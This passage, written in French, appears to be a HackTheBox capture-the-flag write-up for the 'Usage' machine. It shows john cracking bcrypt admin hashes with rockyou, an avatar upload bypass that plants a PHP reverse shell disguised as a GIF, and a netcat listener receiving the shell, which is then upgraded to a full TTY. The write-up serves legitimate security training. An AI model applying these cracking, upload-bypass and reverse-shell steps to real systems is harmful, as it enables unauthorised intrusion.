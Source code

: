 ```bash
+----------+--------------------------------------------------------------+
```

### Crack admin password
> admin : whatever1
```bash
john hash.txt --wordlist=~/wordlists/rockyou.txt
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X2])
Remaining 1 password hash
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:20 0% 0g/s 45.39p/s 45.39c/s 45.39C/s wesley..sandy
whatever1        (?)
1g 0:00:00:34 100% 0.02906g/s 47.42p/s 47.42c/s 47.42C/s alexis1..punkrock
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~/github/Hacking/HackTheBox/Machines/Usage (main*) » john hash.txt --wordlist=~/wordlists/rockyou.txt --show                                                       leopold@leopold-ZenBook-UX434FAC-UX434FA
Invalid options combination or duplicate option: "--show"
~/github/Hacking/HackTheBox/Machines/Usage (main*) » john hash.txt --show
?:xander
?:whatever1
```

### PHP web shell - dash user
On peut désormais se connecter sur la plateforme admin. Le lien de ce sous-domaine etait disponible sur la page d'accueil.
En se connectant, on trouve une page settings permettant de modifier l'avatar de l'utilisateur **admin**.

On peut alors upload un fichier image. On peut alors cacher un reverse shell dans un fichier **gif** ou un autre format. Au moment de l'upload, on intercepte la requete avec Burp et on modifie le nom du fichier en ".php".

Un bouton s'affiche sur la page nous permettant de download le fichier image. En recuperant le lien, on trouve donc où est situé le fichier (et où est le dossiers avec les uploads) :
http://admin.usage.htb/uploads/images/revshell.php

Il ne nous reste plus qu'a ouvrir un netcat sur notre machine personelle et d'ouvrir un shell sur la machine pour recuperer le flag utilisateur :

```bash
$ nc -lvnp 6789
Listening on 0.0.0.0 6789
Connection received on 10.10.11.18 35690
Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 23:32:32 up  1:54,  0 users,  load average: 2.39, 2.47, 2.58
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(dash) gid=1000(dash) groups=1000(dash)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
dash@usage:/$ export TERM=xterm
export TERM=xterm
dash@usage:/$ ^Z
[1]  + 21472 suspended  nc -lvnp 6789
~/github/Hacking/HackTheBox/Machines/Usage (main*) » stty raw -echo;
[1]  + 21472 continued  nc -lvnp 6789

dash@usage:/$ whoami
dash
dash@usage:/$ ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  srv  tmp  var
boot  etc  lib   lib64  lost+found  mnt    proc  run   snap  sys  usr
```